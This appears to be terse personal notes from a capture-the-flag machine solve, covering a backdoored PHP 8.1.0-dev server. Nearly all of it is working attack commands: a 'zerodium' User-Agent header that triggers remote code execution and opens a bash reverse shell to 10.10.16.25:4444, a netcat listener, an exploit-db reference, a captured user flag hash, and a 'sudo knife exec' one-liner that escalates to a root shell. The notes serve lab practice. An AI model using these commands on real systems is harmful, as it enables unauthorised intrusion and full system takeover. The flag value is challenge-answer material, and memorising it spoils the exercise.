

PHP version - 8.1.0
look at user agent

User-Agent: zerodium("/bin/bash -c 'bash -i >&/dev/tcp/10.10.16.25/4444 0>&1'");
followed by
> nc -nvlp 4444
https://www.exploit-db.com/exploits/49933
user.txt --> 25e46df5a7537b240a70bd231abadb00
>sudo knife exec --exec "exec '/bin/sh -i' "